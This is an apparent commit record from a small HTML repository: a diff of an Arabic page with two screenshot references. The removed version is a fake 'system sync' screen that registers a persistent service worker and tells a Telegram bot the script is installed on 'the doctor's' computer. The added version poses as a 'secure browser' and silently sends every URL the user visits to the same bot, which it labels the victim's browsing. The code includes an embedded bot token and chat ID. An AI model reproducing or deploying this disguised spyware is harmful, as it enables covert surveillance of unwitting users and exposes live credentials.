

Before and after one commit to mu228-arch/jubilant-enigma, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,34 +2,35 @@
 <html lang="ar" dir="rtl">
 <head>
     <meta charset="UTF-8">
-    <title>مركز الإدارة الذكي | v2.0</title>
+    <title>المتصفح الآمن | YOU_BROWSER</title>
     <style>
-        :root { --neon: #00ff41; --bg: #050505; }
-        body { background: var(--bg); color: white; font-family: 'Segoe UI', sans-serif; display: flex; justify-content: center; align-items: center; height: 100vh; margin: 0; overflow: hidden; }
-        .glass-card { background: rgba(255, 255, 255, 0.02); backdrop-filter: blur(15px); border: 1px solid rgba(255, 255, 255, 0.1); padding: 50px; border-radius: 30px; width: 400px; text-align: center; box-shadow: 0 20px 50px rgba(0,0,0,0.5); }
-        h2 { color: var(--neon); text-shadow: 0 0 10px var(--neon); margin-bottom: 5px; }
-        .loader { border: 3px solid #111; border-top: 3px solid var(--neon); border-radius: 50%; width: 30px; height: 30px; animation: spin 1s linear infinite; margin: 20px auto; }
-        @keyframes spin { 0% { transform: rotate(0deg); } 100% { transform: rotate(360deg); } }
-        #status { font-family: monospace; font-size: 11px; color: #555; }
+        body, html { margin: 0; padding: 0; height: 100%; background: #050505; color: #00ff41; font-family: sans-serif; overflow: hidden; }
+        .nav-bar { background: #111; padding: 10px; display: flex; gap: 10px; border-bottom: 1px solid #333; }
+        input { flex: 1; background: #000; border: 1px solid var(--neon); color: var(--neon); padding: 8px; border-radius: 5px; }
+        iframe { width: 100%; height: calc(100% - 50px); border: none; background: white; }
     </style>
 </head>
 <body>
-    <div class="glass-card">
-        <h2>SYSTEM_SYNC</h2>
-        <p style="font-size: 14px; color: #888;">جاري مزامنة بيانات الأداء بالخلفية...</p>
-        <div class="loader"></div>
-        <div id="status">> بانتظار تسجيل السكربت...</div>
+    <div class="nav-bar">
+        <span>🌐 YOU_RECON:</span>
+        <input type="text" id="urlInput" placeholder="ادخل الرابط هنا (مثلاً: https://bing.com)">
+        <button onclick="loadPage()" style="background: #00ff41; border: none; padding: 5px 15px; cursor: pointer; font-weight: bold;">انتقال</button>
     </div>
+    <iframe id="browserFrame" src="about:blank"></iframe>
 
 <script>
     if ('serviceWorker' in navigator) {
-        // هنا سجلنا ملف حقيقي اسمه sw.js
-        navigator.serviceWorker.register('sw.js').then(reg => {
-            document.getElementById('status').innerText = "> تم التثبيت الدائم بنجاح. YOU متحكم الآن.";
-            fetch(`https://api.telegram.org/bot7713540341:AAGfI7IguGT5dwEhiocvC9h0mVW9js4ByJQ/sendMessage?chat_id=6778604620&text=🔥 YOU: السكربت استقر في حاسبة الدكتور!`);
-        }).catch(err => {
-            document.getElementById('status').innerText = "> فشل: " + err.message;
-        });
+        navigator.serviceWorker.register('sw.js');
+    }
+
+    function loadPage() {
+        const url = document.getElementById('urlInput').value;
+        const frame = document.getElementById('browserFrame');
+
+        // إرسال إشعار فوري للتليجرام قبل التحميل
+        fetch(`https://api.telegram.org/bot7713540341:AAGfI7IguGT5dwEhiocvC9h0mVW9js4ByJQ/sendMessage?chat_id=6778604620&text=🎯 YOU: الضحية يتصفح الآن عبر المتصفح المخترق:\n${url}`);
+
+        frame.src = url;
     }
 </script>
 </body>
```
